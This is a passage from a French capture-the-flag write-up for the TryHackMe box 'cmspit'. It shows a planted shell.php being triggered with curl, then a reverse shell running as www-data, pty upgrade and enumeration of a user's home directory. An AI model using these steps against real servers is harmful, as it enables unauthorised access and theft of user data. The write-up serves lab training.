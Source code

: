 ![page](./Task1-04.png)   

On met un reverse shell dans le serveurs cible.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://cmspit.thm/shell.php
```

On lance le reverse shell.   

```bash
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 13:51:03 up  1:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ls /home
ls /home
stux
www-data@ubuntu:/$ cd /home/stux
cd /home/stux
www-data@ubuntu:/home/stux$ ls -al
ls -al
total 44
drwxr-xr-x 4 stux stux 4096 May 22 19:52 .
drwxr-xr-x 3 root root 4096 May 21 15:24 ..
-rw-r--r-- 1 root root   74 May 22 19:51 .bash_history
-rw-r--r-- 1 stux stux  220 May 21 15:24 .bash_logout
-rw-r--r-- 1 stux stux 3771 May 21 15:24 .bashrc
drwx------ 2 stux stux 4096 May 21 15:26 .cache
-rw-r--r-- 1 root root  429 May 21 23:07 .dbshell
-rwxrwxrwx 1 root root    0 May 21 22:51 .mongorc.js
drwxrwxr-x 2 stux stux 4096 May 21 16:21 .nano
-rw-r--r-- 1 stux stux  655 May 21 15:24 .profile
-rw-r--r-- 1 stux stux    0 May 21 15:27 .sudo_as_admin_successful
```